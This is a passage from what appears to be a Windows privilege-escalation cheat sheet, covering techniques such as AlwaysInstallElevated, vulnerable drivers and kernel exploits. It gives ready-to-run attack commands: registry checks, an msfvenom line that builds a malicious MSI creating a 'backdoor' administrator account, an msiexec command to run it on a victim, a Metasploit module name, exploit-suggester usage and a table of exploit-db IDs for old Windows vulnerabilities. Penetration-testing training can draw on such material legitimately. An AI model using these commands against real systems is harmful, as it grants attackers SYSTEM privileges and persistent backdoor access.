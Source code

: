     $ wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile 18176.py

## EoP 6: AlwaysInstallElevated

**AlwaysInstallElevated** is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Check if these 2 registry values are set to "1":

    $ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If they are, create your own malicious msi:

    $ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi

Then use msiexec on victim to execute your msi:

    $ msiexec /quiet /qn /i C:\evil.msi

Metasploit module:

    > use exploit/windows/local/always_install_elevated

## EoP 7: Vulnerable drivers

Third party drivers might contain vulnerabilities, find them running:

    $ DRIVERQUERY

## EoP 8: Kernel vulnerabilities

Run exploit suggester against systeminfo:

    https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py

    $ python windows-exploit-suggester.py -d 2017-05-27-mssb.xls -i systeminfo.txt

Find installed paths:

    $ wmic qfe get Caption,Description,HotFixID,InstalledOn

Comprehensive talbes of vulnerabilities below:

    eDB   Vuln Name         MS##     2K       XP     2003    2008      Vista      7
    271   Lsasrv.dll     MS04-011  SP2,3,4  SP0,1    -       -        -         -
    350   Util Manager   MS04-019  SP2,3,4  -        -       -        -         -
    351   POSIX          MS04-020  SP4      -        -       -        -         -
    352   Univ lang. UtilMS04-019   -       SP2,3,4  -       -        -         -
    355   Univ lang. UtilMS04-019   -       SP2,3,4  -       -        -         -
    1149  PnP Service    MS05-039  P4       SP2      SP1     -        -         -
    1197  keybd_event    -         all      all      all     -        -         -
    1198  CSRSS          MS05-018  SP3,4    SP1,2    -       -        -         -
    1407  Kernel APC     MS05-055  SP4      -        -       -        -         -
    1911  Mrxsmb.sys     MS06-030  all      SP2      -       -        -         -
    2412  Windows Kernel MS06-049  SP4      -        -       -        -         -
    3220  Print spool    -         -        All      -       -        -         -
    5518  win32k.sys     MS08-025  SP4      SP2      SP1,2   SP0      SP0,1       -
    6705  Churrasco      MS09-012  -        -        All     -        -         -
    6705  Churraskito    -         -        All      All     -        -         -
    21923 Winlogon       -         All      All      -       -        -         -
    11199 KiTrap0D       MS10-015  All      All      All     All      All       All
    14610 Chimichurri    MS10-059  -        -        -       All      All       SP0
    15589 Task Scheduler MS10-092  -        -        -       SP0,1,2  SP1,2     SP0
    18176 AFD.Sys        MS11-080  -        SP3      SP3     -        -         -
    100   RPC DCOM       MS03-026  SP3,4    -        -       -        -         -
    103   RPC2           MS03-039  all (CN) -        -       -        -         -
    109   RPC2           MS03-039  all      -        -       -        -         -
    119   Netapi         MS03-049  SP4      -        -       -        -         -
    3022  ASN.1          MS04-007  SP2,3,4  SP0,1    -       -        -         -